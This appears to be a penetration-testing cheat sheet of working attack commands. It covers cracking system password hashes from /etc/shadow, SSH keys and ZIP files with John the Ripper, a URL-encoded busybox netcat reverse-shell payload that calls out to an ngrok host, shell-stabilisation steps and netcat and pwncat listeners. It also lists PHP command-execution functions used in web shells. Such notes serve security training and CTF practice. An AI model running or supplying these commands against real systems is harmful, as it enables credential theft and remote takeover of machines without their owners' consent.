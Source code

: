 ### John

```bash
unshadow /etc/passwd /etc/shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

```bash
#passphrase
ssh2john id_rsa > id_rsa_hash
john --wordlist=rockyou.txt id_rsa_hash
```

```bash
zip2john file.zip > file_hash
john --wordlist=rockyou.txt file_hash
```

## Encoding payloads

- https://www.urlencoder.org/
- https://www.joelonsoftware.com/2003/10/08/the-absolute-minimum-every-software-developer-absolutely-positively-must-know-about-unicode-and-character-sets-no-excuses/

```bash
busybox+nc+4.tcp.eu.ngrok.io+12524+-e+sh+
```

## Reverse Shells

**STTY**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
CTRLZ + Z 
stty raw -echo && fg
```

Or

```bash
rlwrap nc -nlvp 4444
```

Or

```bash
pip install pwncat-cs
pwncat-cs -lp 4444
````

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

`system(),exec(),shell_exec(),proc_open()`

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/
